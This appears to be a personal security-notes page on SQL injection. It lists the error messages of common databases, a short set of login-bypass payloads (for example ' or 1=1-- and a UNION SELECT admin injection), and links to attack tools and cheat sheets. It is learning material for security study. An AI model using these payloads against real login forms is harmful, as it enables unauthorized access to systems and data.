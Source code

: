 ```yaml
---
layout: default
title: SQLi
nav_order: 2 
parent: security stuff
permalink: /notes/security-stuff/sqli
---
```


1. TOC
{:toc}

## General info
There are four common database types: (each one will report errors in different ways)
1. MySQL
  - error example: `The used SELECT statements have a different number of columns`
2. MSSQL
  - error example: `All queries in an SQL statement containing a UNION operator must have an equal number of expressions in their target lists`
3. Oracle
  - error example: 
4. Postgre-SQL
  - error example: `Each UNION query must have the same number of columns`

---

## Injection (SQLi)
### Easy Injection Tests (aka Login Tricks)
 - `admin' --`  
 - `admin' #`  
 - `admin'/*`  
 - `' or 1=1--`  
 - `' or 1=1-- -`  
 - `' or 1=1#`  
 - `' or 1=1/*`  
 - `') or '1'='1--`  
 - `') or ('1'='1--`  
 - `'UNION SELECT 1, 'admin', 'password', 1--`  


### Automatic scanning with SQLMap

---

## Resources / More info
SQL Injection Hacking Tools

-    SQLDict – Performs a dictionary attack against the SQL server
-    SQLExec – Executes commands on a compromised SQL server
-    SQLbf – Another password cracking program that performs both dictionary and brute force attacks
-    SQLSmack – Linux based command shell program
-    SQL2.exe – This UDP buffer overflow attack will return a command prompt to the attacker
-    Msadc.pl – A SQL injection exploit
- [Wapiti](http://wapiti.sourceforge.net/)
- [http://securitytools.wikidot.com/sql-injection](http://securitytools.wikidot.com/sql-injection)
- [https://securiteam.com/securityreviews/5DP0N1P76E](https://securiteam.com/securityreviews/5DP0N1P76E)

### Links  
#### Cheatsheets and more 
[SQLi Cheat Sheet - netsparker](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)  
[SQLi Cheat Sheet - pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
#### Good reads
[MSSQL Injection PWNage](https://www.exploit-db.com/papers/12975)
[Drupageddon](https://www.linuxjournal.com/content/drupageddon-sql-injection-database-abstraction-and-hundreds-thousands-web-sites)




